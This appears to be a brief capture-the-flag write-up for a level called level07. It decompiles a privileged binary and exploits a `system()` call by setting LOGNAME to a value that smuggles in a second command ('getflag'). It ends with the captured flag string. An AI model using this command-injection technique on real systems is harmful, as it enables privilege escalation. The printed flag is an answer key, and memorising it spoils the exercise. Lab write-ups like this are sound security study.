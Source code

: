 # level07

```shell
ls -la
```

shows that the level07 executable belongs to flag07 group, privilege escalation should be possible

```shell
scp -P 4242 level07@127.0.0.1:~/level06 .
```

```shell
~/dev/tools/retdec/bin/retdec-decompiler.py level07
```

shows `return system(buffer);` which permits arbitrary code execution pretty easily

```shell
LOGNAME='exploit;getflag'
```

```shell
./level07
```

gives flag:

```shell
fiumuikeil55xe9cu4dood66h
```
